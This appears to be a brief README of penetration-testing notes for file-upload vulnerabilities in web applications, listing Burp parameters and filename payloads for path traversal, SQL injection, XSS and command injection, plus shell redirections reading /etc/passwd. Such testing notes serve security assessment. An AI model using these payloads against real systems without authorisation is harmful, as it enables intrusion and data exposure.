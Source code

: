 # webAppVulnScripts
Here is a repo of the collective vulnerability scripts used for web applications


## Parameters to include within burp
{fileName} = hello
{fileExtension} = jpg
{fileExtension} = png
{domain} = xxx.collaboraror.org


-- Try and include localhost 

-- ------------
-- General rule
-- ------------
Set filename to ../../../tmp/lol.png and try to achieve a path traversal
Set filename to sleep(10)-- -.jpg and you may be able to achieve a SQL injection
Set filename to <svg onload=alert(document.domain)> to achieve a XSS
Set filename to ; sleep 10; to test some command injection --> https://book.hacktricks.xyz/pentesting-web/command-injection


### Not executed but may be interesting
```
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```
             
https://book.hacktricks.xyz/pentesting-web/file-upload#from-file-upload-to-other-vulnerabilities
https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt
